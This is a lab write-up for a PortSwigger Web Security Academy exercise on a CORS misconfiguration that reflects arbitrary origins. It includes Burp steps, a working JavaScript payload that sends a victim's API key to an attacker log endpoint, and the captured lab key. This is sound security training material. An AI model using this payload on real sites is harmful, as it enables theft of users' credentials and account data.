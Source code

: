 ![image](https://github.com/udayk01/Web-Security/assets/52235763/e233584d-a065-4d02-be2e-0a5190ae8890)

## Solution:

> Check intercept is off, then use the browser to log in and access your account page.

![image](https://github.com/udayk01/Web-Security/assets/52235763/53ef980f-f130-4137-a6c5-c614ada3449b)

> Review the history and observe that your key is retrieved via an AJAX request to /accountDetails, and the response contains the Access-Control-Allow-Credentials header suggesting that it may support CORS.

![image](https://github.com/udayk01/Web-Security/assets/52235763/479cfcd9-8368-4483-a558-60615f75e13a)

> Send the request to Burp Repeater, and resubmit it with the added header:

>> ```Origin: https://example.com```

![image](https://github.com/udayk01/Web-Security/assets/52235763/6b12feb5-920d-48f5-a7ea-ec82220e62e2)

>> Observe that the origin is reflected in the Access-Control-Allow-Origin header.

> In the browser, go to the exploit server and enter the following HTML, replacing YOUR-LAB-ID with your unique lab URL:
```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

![image](https://github.com/udayk01/Web-Security/assets/52235763/cc92596b-d56d-4373-8758-eef7e7974a4d)

> Click View exploit. Observe that the exploit works - you have landed on the log page and your API key is in the URL.

![image](https://github.com/udayk01/Web-Security/assets/52235763/f7a44496-4c8d-43e2-bc4d-b64eaaef30ec)

> Go back to the exploit server and click Deliver exploit to victim.

![image](https://github.com/udayk01/Web-Security/assets/52235763/b0f87018-14ed-4397-9bad-5ec5cfd8906e)

>> Click Access log, retrieve and submit the victim's API key to complete the lab.

![image](https://github.com/udayk01/Web-Security/assets/52235763/c851bdb0-3aac-4844-bb97-f76f1f214e2f)

>> API key : ```SryMmFMPUwlMrctx4b7MWFKlU3bnWqyN```

![Screenshot 2024-04-20 114506](https://github.com/udayk01/Web-Security/assets/52235763/3c358d40-0162-4960-a549-568070b2a29f)

> Lab Solved

![image](https://github.com/udayk01/Web-Security/assets/52235763/87031bb4-f356-4b9f-8515-e9fc1ff5ad5b)

